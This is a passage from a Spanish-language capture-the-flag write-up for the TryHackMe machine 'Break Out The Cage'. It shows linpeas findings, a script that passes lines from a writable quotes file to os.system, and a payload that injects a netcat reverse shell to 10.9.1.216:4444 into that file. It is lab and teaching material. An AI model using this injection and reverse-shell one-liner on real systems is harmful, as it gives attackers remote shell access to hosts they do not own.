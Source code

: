 ```
      % \ | %  ))   |
      %  \|%________|
       %%%%
Last login: Tue May 26 10:58:20 2020 from 192.168.247.1
                                                                               
Broadcast message from cage@national-treasure (somewhere) (Tue Apr 19 03:36:01 
                                                                               
I mean it, honey, the world is being Fed-exed to hell in a hand cart. — The Rock
                                                                               
```

## Explotacion

- Ejecutamos ***linpeas*** y encontramo los siguientes archivos que pueden ser modificados

 ![](/assets/images/thm-writeup-break-out-the-cage/cage_linpeas.png)

/opt/.dads_scripts/.files
/opt/.dads_scripts/.files/.quotes

- Revisamos el script ***spread_the_quotes.py*** y observamos que es de solo lectura, pero toma los datos desl archivo ***.quotes***, el cual como vimos arriba si nos permite modificarlo.

```
weston@national-treasure:/opt/.dads_scripts$ cat spread_the_quotes.py 
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)

weston@national-treasure:/opt/.dads_scripts$ 
```


weston@national-treasure:/opt/.dads_scripts/.files$ echo "Nicolas; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.216 4444 >/tmp/f" > .quotes


## Bandera de usuario
